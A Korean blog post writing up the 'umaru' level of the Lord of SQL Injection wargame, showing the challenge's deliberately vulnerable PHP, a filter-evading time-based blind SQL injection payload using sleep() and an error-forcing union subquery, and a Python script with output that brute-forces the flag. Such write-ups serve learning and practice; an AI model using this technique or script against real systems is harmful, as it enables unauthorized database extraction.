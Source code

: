 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection : eagle-jump] LoS - umaru 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


내가 지금 문제를 풀고 있는 서버는 `los.rubiya.kr`인데, `los.eagle-jump.ord`에도 같은 문제가 있다.  

그런데 `eagle-jump` 서버의 마지막 문제는 `rubiya`의 서버에 없는 것 같아 따로 풀어보게 되었다.  

<!--more-->

코드는 다음과 같다.  

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();

  function reset_flag(){
    $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
    $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
    if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
    else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
    echo "reset ok";
    highlight_file(__FILE__);
    exit();
  }

  if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

  if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
  if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
  if(strlen($_GET[flag])>100) exit("HeHe");

  $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

  @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
  @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

  $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
  if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

  if($realflag[flag] === $_GET[flag]) solve("umaru");
?>
```

뭔가 엄청 복잡 해 보인다.  

자세히 살펴보면, `reset_flag()` 라는 함수에서 `$new_flag`라는 변수를 생성한다.  

이 변수는 `랜덤숫자+qwer+랜덤숫자+asdf`를 `md5`로 해싱한 후 16글자만을 자른 값이다.  

그 후, 나의 `los_id`와 함께 테이블에 값을 저장한다.  

내가 넘길 수 있는 쿼리스트링은 `flag` 뿐이다.  

그런데 `$_GET['flag']`가 여러 곳에서 사용되는데, 내가 `flag`의 값을 넘겨주면, 몇 가지 필터링을 검사한 후 데이터베이스에 저장 된 나의 `flag`를 찾아 `prob_umaru_temp` 테이블에 저장한다.  

이 후, 이 테이블에 내가 입력 한 `flag`의 값을 임시로 새로 생성 한 테이블에 저장한다.  

그리고 원래 테이블에 저장되어 있던 `flag`의 값과, 임시 테이블에 저장되어 있는 `flag`의 값을 비교하는데, 만약 값이 다르거나 원래 테이블에 `flag`가 없다면 `reset_flag()` 함수를 실행시킨다.  

즉, `flag`를 맞추지 못하면 계속 랜덤 값으로 `flag`가 바뀐다. ㅠㅠ  

따라서 문제를 풀기 위해서는 다음과 같은 조건이 필요하다.  

> 1. flag의 값은 100글자를 넘기지 말 것  
> 2. flag가 갱신되지 않도록 update 쿼리문에서 에러를 발생시킬 것  
> 3. ,를 사용할 수 없기 때문에 sleep 함수를 사용해 값을 찾을 것  

일단 문제에서 해쉬값 중 16글자를 잘라 테이블에 저장하므로, `flag`의 길이는 16글자임을 알 수 있다.  

때문에 값만 찾아내면 된다.  

일단 위의 조건을 만족하는 쿼리를 찾기 위해 서버에서 이것저것 테스트 해 보았다.  

제일 먼저 찾은 쿼리는 다음과 같다.  

```
update prob_umaru_temp set flag=sleep(3 * (flag like 'a%')) + (select 1 union select 2)
```

이러면 먼저 `sleep()` 함수 내에서 `flag`의 값이 `a%`와 같은지를 비교하고, 같다면 `1`이 되기 때문에 `sleep(3*1)`이 만들어 진다.  

즉, 3초 동안 `sleep()` 함수를 실행하게 된다.  

반면 다를 경우에는 `flag like 'a%'`가 0이 되어 `sleep(3*0)`이 만들어 지기 때문에 `sleep()` 함수를 실행하지 않는다.  

`sleep()` 함수를 실행한 후에는 `+`연산으로 연결 된 `select 1 union select 2`를 실행하는데, 이 전 문제들에서도 사용했다시피 해당 쿼리는 에러를 유발한다.  

때문에 결과적으로 완성되는 쿼리는 에러가 발생하기 때문에 `update` 문을 실행하지 않게 되고, `prob_umaru_temp` 테이블과 `prob_umaru` 테이블에 저장된 `flag`의 값은 일치하기 때문에 `reset_flag()` 함수를 실행하지 않는다.  

그래서 이를 바탕으로 코드를 구현해서 테스트 해 보았는데, 아무리 해도 결과가 나오지 않았다.  

내 서버에서는 잘 되는데, 문제 서버에서는 안되길래 뭔가 설정이 다르게 되어있나 싶어서 연산자를 이것저것으로 바꿔 보았다.  

그 결과 `|`를 쓰니 값을 추출할 수 있었다.  

구현한 코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 16

url = "https://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + "sleep(3 * (flag like '" + str(flag) + str(chr(i)) +"%')) | (select 1 union select 2)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

이 코드를 돌리면 아래와 같은 결과를 얻을 수 있다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 8
[+] Found 2 : 89
[+] Found 3 : 892
[+] Found 4 : 8925
[+] Found 5 : 89253
[+] Found 6 : 892531
[+] Found 7 : 8925316
[+] Found 8 : 89253169
[+] Found 9 : 89253169C
[+] Found 10 : 89253169CE
[+] Found 11 : 89253169CE9
[+] Found 12 : 89253169CE98
[+] Found 13 : 89253169CE987
[+] Found 14 : 89253169CE987D
[+] Found 15 : 89253169CE987D1
[+] Found 16 : 89253169CE987D15
[+] Found password :  89253169CE987D15
[+] End
```

`php`에서 `md5` 함수를 사용하면 알파벳 소문자로 값이 출력되므로, 데이터베이스에 저장된 값도 소문자로 이루어져 있을 것이다.  

따라서 알파벳 대문자를 소문자로 바꾸어 아래와 같이 입력했다.  

```
?flag=89253169ce987d15
```

`eagle-jump` 서버를 `All Clear` 했다!!!  

이제 `rubiya` 서버에도 몇 문제 안남았으니 빨리 다 풀어야지 ㅎㅎㅎ  

`UMARU Clear!`

![](/images/los/umaru/umaru_01.png)
